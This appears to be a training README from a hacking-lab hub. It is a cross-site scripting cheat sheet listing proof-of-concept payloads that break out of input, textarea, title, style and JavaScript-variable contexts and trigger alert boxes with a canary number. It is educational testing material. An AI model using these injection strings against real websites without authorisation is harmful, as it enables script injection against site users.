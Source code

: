 # hackinghub  

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)  

### basic xss  

The number `19628397001` in the examples below is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

Try to start with simple payload like `<h1>19628397001` to see what happens.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```  

### contexts  

#### input example  

value inside an input:  
`<input value="19628397001">`  

try to break out with a payload like...    
```
test"><script>alert(19628397001)</script>
```  

or use an event like this...  
```
test" onmouseover=alert(19628397001);//
```  

#### textarea example   

value inside a textarea:  
`<textarea>19628397001</textarea>`  

try to break out with a payload like...  
```
test</textarea><img/src=x onerror=alert(19628397001)>
```  

#### title example  

value inside a title:  
`<title>Welcome, 19628397001</title>`  

try to break out with a payload like...  
```
test</title><img/src=x onerror=alert(19628397001)>
```  

#### style tag in head section  
expected value format `#FFFFFF`, but example below input value (`19628397001`):  
```HTML
<head>
        <style>
                body {
                        background-color: 19628397001;
                }
        </style>
</head>
```  

try to break out with a payload like...  
```
#FFFFFF;}</style><script>alert(19628397001)</script><!--
```

#### javascript variables  

value `19628397001` instead a javascript variable:  
```
<script>
var name = '19628397001';
$('span#name').html( name );
</script>
```

try to break out with a payload like...  
```
';alert(19628397001);//
```

### content types  

See a server response header with `Content-Type: text/html`, but the content returned is `json` (i.e. an API response)?  

Go to that endpoint in your web browser directly and test for XSS there.  

Look at what is rendering and maybe try something like... 
```
testing"><a href=javascript:alert(19628397001)>testing
```


